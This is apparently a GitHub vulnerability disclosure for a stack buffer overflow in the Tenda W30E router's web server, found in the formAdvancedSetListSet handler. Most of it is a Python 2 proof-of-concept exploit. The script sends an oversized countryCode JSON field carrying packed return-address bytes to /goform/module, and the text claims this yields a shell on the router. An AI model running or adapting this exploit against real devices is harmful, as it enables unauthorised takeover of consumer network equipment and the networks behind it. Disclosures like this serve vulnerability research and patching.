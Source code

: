 # Tenda W30E Stack Overflow

**Vender** ：Tenda

**Firmware version**:V16.01.0.12(4843)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formAdvancedSetListSet` function, which can be accessed via the URL `setAdvancedSetList`

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        #if data is not None:
            #data = self.Encode(data)
        data='{"setAdvancedSetList":{"countryCode":"'+'b'*0x134+p16(0x030F0)+p8(04)+'"}}'
        print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #Fireitup
    session='W30EV2.0:0.171.1:a87ee6'
    ip = '192.168.0.1'  
    # 构造http数据包
    s='1'
    pdata = {

        'aaa'  :   'bbb' ,
        'ccc'  :   'dddd'
        }

    header = {
        'Cookie'        : 'bLanguage=cn; sessionid='+session,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/module', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)



```





![poc](./poc.jpg)

![poc1](./poc1.jpg)

